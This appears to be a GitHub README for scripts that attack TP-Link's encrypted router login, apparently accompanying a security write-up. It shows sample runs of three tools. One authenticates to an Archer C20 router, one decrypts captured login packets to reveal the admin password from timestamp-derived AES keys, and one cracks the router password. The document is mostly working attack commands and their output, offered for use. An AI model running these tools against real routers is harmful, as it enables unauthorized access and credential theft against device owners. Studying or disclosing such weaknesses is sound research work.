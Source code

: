 # TP-Link GDPR

Scripts that break TP-Link's attempt at GDPR compliance. To learn more, visit the full write-up [here]().

## Authenticate

```text
python3 authenticate.py 192.168.0.1 password123
[*] Connecting to router at 192.168.0.1
[+] Found supported device: Archer C20 AC750 Wireless Dual Band Router
[+] RSA n: E70029629FA45445EC5D1048E287E98839A2B481E8E83940BB8C339515C57B197D8F593F4806E51829C69116A41002125EFEF7D0DB73DA8CC98A931903ED4D35
[+] RSA e: 010001
[+] Sequence: 488263223
[*] Setting AES key to AAAAAAAAAAAAAAAA
[*] Setting AES IV to BBBBBBBBBBBBBBBB
[+] JSESSIONID: 69edac0c5021e874e4b436fdded7f4
[+] Successfully authenticated with the router
```

## Decrypt Credentials

```text
python3 decrypt_creds.py ./bin/login.pcapng
[+] Found a login packet
[*] Login request packet captured at Unix epoch time 1618851624.846030723
[+] AES Key: 1618851624837207
[+] AES IV: 1618851624837491
8
[/cgi/login#0,0,0,0,0,0#0,0,0,0,0,0]0,2
username=admin
password=password123
```

## Password Crack

```text
python3 password_crack.py
Cracked the password after 3 attempts. The password is "password123", enjoy!
```
